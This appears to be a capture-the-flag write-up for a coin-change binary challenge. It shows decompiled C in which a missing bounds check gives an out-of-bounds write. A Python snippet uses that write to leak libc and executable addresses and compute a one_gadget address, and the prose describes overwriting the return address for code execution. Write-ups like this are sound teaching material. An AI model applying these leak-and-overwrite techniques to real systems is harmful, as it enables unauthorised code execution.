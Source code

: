 calculate_ways:
```c
memset(param_2,0,(ulong)param_3);
*param_2 = 1;
printf("Insert desired value: ");
value = read_int();
i = 0;
while (i < param_4) {
    j = *(uint *)(param_1 + (ulong)i * 4);
    while (j <= value) {
        param_2[j] = param_2[j - *(int *)(param_1 + (ulong)i * 4)] + param_2[j];
        j = j + 1;
    }
    i = i + 1;
}
printf("We can change %d with %d ways\n",(ulong)value,(ulong)(uint)param_2[value]);
return;
```

The maximum number of coins is 300, which is the exact amount ((1200)/4 == 300). So no overflow there. However, whats really interesting is the calculate_ways function. There is no bounds check so we can calculate the number of ways to achieve any amount. The result is stored at param_2(amounts array) + amount, so we have an out of bounds write.

With this out of bounds access we can get a exec leak, libc leak, and we can overwrite the return address of the handler function.

### Information leak
In this challenge, I used a [one_gadget](https://github.com/david942j/one_gadget) in order to gain RCE. It turns out I just had bad offsets in the last challenge. Oh well ¯\\\_(ツ)\_/¯.

In order to get a exec leak, all I did was run the calculate ways function twice, at offset 3006 and 3007. This is the return value of the handler function. Since it's meant to return to main, it's value is an executable area address.

Exec leak actually isn't important when I want to run a libc value, but I got it anyways. A libc leak can be achieve in the same way but using offset's 3010 and 3011

```python
    compute(3011)
    p.recvuntil("with ")
    l = struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')

    compute(3010)
    p.recvuntil("with ")
    l += struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')
    l = int(l, 16)
    print hex(l)

    libc_base = l - 0x2409b
    one_gadget = libc_base + 0x50186


    compute(3007)
    p.recvuntil("with ")
    l = struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')

    compute(3006)
    p.recvuntil("with ")
    l += struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')
    l = int(l, 16)
    print hex(l)

    exec_leak = l
```